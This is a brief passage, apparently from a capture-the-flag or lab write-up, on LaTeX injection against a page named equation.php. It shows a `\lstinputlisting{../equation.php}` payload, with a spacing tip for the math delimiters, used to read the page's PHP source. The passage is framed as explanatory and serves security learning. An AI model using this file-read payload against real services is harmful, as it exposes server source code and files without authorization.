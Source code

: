 → From this i can build my payload to collect a file such as the source php of the current page `equation.php` 

```bash
 $ \lstinputlisting{../equation.php} $ 
```

⚠️ Don’t forget to add a space before the first $ and after the last one to recreate math section defined by 2 $ and a space in between.

![Untitled](images/Untitled%2011.png)
